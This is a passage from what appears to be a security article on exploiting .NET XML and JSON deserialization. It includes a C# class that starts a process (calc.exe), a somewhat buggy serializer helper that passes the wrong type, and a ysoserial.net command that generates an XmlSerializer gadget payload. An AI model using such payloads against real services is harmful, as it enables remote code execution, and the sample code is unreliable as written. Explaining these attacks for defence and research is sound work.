Which means that even crafting an xml using the following serializer, it won't work:

```cs
 [Serializable]
public class RCE
{
    private String _cmd = "calc.exe";
    public String cmd
    {
        get { return _cmd;  }
        set { _cmd = value; }
    }

    public void Run()
    {
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = _cmd;
        p.Start();
        p.Dispose();
    }
}

public static void xmlRCESerial(string filename) 
{
    // Create desert name
    var rce = new RCE();
    // Persist to file
    TextWriter writer = new StreamWriter(filename + ".xml");
    XmlSerializer serializer = new XmlSerializer(typeof(Desert));
    Console.WriteLine("Serializing desert (!?)");
    serializer.Serialize(writer, rce);
    writer.Close();
} 
```

However, it is possible to exploit this function if the attacker can control the expected type of the **XmlSerializer**. 

In that case, it would be possible to craft an exploit generating the serialized verion of the **RCE** calss, or using `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f XmlSerializer -c "calc" -o raw
```

**JSON**

In their research, [Firday the 13th, JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf), Alvaro Muñoz and Oleksandr Mirosh explained how it was possible to apply similar methods seen for JAVA JSON deserialization to exploit .NET JSON deserialization. The research is extremely accurate, and points out a list of libraries affected by this vulnerability. As such, the article won't cover in details every library, but focus more on explaining that no concrete difference exists between JSON and XML/Binary deserialization in terms of exploitation.
